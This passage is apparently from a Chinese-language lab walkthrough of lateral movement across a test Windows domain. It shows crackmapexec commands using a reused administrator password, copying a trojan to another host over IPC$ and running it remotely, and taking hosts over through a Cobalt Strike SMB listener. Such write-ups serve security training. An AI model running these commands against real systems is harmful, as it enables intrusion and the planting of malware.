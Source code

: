 这里我们发现有三台主机都可以用这个密码上线。当然，这里我们也可以利用`crackmapexec`来执行命令看看：

```shell
proxychains -q crackmapexec smb 192.168.52.138 -u administrator -p Hongrisec@2019 -x "whoami"
```

![截图](fdee8f7bf77044085be74dce63f433cd.png)

这里我们将利用两种方法来进行上线：

**利用crackmapexec、ipc进行上线**

我们可以直接利用`crackmapexec`执行命令将木马上传到141这个主机上。

首先，建立一个转发木马上线：

![截图](3ab256441c530dfabe5743cfecc3476f.png)

然后我们需要创建一个32位的木马（因为41主机只能运行32位）：

![截图](5a5a55d9ba4d344b5bb2604138a80b82.png)

然后我们将木马上传到143（web服务器）的c盘中：

![截图](4f89a73ed462e524ee3dd51c081843b0.png)

然后，我们利用ipc$将木马复制过去：

```shell
shell net use \\192.168.52.141\ipc$ "Hongrisec@2019" /user:administrator
shell copy 4444.exe \\192.168.52.141\c$
```

然后，进一步的我们利用`crackmapexec`来执行木马：

```shell
proxychains -q crackmapexec smb 192.168.52.141 -u administrator -p Hongrisec@2019 -x "c:\4444.exe"
```

这时候，我们可以发现cs中已经上线了：

![截图](12d6b4e2ed3a020dbbe23022f090c307.png)

**直接利用cs上线**

这里我们利用cs来进行测试，首先我们建立一个smb的监听器：

![截图](6df07bb4bec76b53d1aed2667f048c0a.png)

然后我们利用密钥来进行尝试登录：

![截图](02ddc202a65a2f1912f79b191e553e2d.png)

![截图](fa87256bec6ed4895360457f10ffef4f.png)

此时，就会发现上线了！！！

![截图](580930c37489d38c1929a22d92b40c3b.png)
